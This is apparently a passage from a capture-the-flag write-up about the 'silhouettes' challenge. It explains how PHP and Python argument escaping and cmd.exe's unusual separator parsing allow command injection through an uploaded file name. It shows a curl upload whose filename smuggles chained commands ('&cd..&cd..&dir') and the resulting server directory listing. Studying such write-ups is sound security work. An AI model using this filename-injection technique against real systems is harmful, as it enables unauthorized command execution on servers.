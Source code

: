 * PHP/`basename()` - eats `/`, `\` and anything before.
* PHP/`escapeshellarg()` - replaces `%`, `!` and `"` with spaces (` `); adds `"`
around the string.
* Python/`subprocess.list2cmdline()`: adds `"` around the argument if it
contains ` ` or `\t`; adds backslash before `"`.
* Windows filesystem: file creation fails if file name contains any of these:
`<>:"/\|?*`. File is created on FS before its name goes into `cmd.exe`, so this
should not fail if we want command to be executed.

But how to construct anything useful if we are not even able to use spaces in
our command? For example, how to execute `cd ..` to go upper in the directory
tree? I tried to google this, hoping that there is some special command that
could replace `cd ..`. Instead of finding special command, I learned that
argument parsing for internal commands is working really weird in `cmd.exe`.
Not only spaces and tabs, but also `,`, `;` and `=` may be used as an argument
separators. It turned out that commands like `cd..` are working as expected
even without any separator!

```
$ curl -F 'file=@dicom_jpeg;filename=x&cd..&cd..&dir&x' 'http://silhouettes.balsnctf.com/'
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file

Host type: AMD64-Windows
Character encoding: CP1252
Code page: 437 (OEM) / 1252 (ANSI)

External libraries used:
- ZLIB, Version 1.2.11
- IJG, Version 6b  27-Mar-1998 (modified)
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file
error: Missing parameter dcmfile-out
 Volume in drive C has no label.
 Volume Serial Number is C604-FB4A

 Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI
11/07/2007  08:00 AM            17,734 eula.1028.txt
11/07/2007  08:00 AM            17,734 eula.1031.txt
11/07/2007  08:00 AM            10,134 eula.1033.txt
11/07/2007  08:00 AM            17,734 eula.1036.txt
11/07/2007  08:00 AM            17,734 eula.1040.txt
11/07/2007  08:00 AM               118 eula.1041.txt
11/07/2007  08:00 AM            17,734 eula.1042.txt
11/07/2007  08:00 AM            17,734 eula.2052.txt
11/07/2007  08:00 AM            17,734 eula.3082.txt
11/07/2007  08:00 AM             1,110 globdata.ini
09/25/2019  12:45 PM    <DIR>          inetpub
11/07/2007  08:03 AM           562,688 install.exe
11/07/2007  08:00 AM               843 install.ini
11/07/2007  08:03 AM            76,304 install.res.1028.dll
11/07/2007  08:03 AM            96,272 install.res.1031.dll
11/07/2007  08:03 AM            91,152 install.res.1033.dll
11/07/2007  08:03 AM            97,296 install.res.1036.dll
11/07/2007  08:03 AM            95,248 install.res.1040.dll
11/07/2007  08:03 AM            81,424 install.res.1041.dll
11/07/2007  08:03 AM            79,888 install.res.1042.dll
11/07/2007  08:03 AM            75,792 install.res.2052.dll
11/07/2007  08:03 AM            96,272 install.res.3082.dll
09/15/2018  07:19 AM    <DIR>          PerfLogs
09/25/2019  12:52 PM    <DIR>          Program Files
```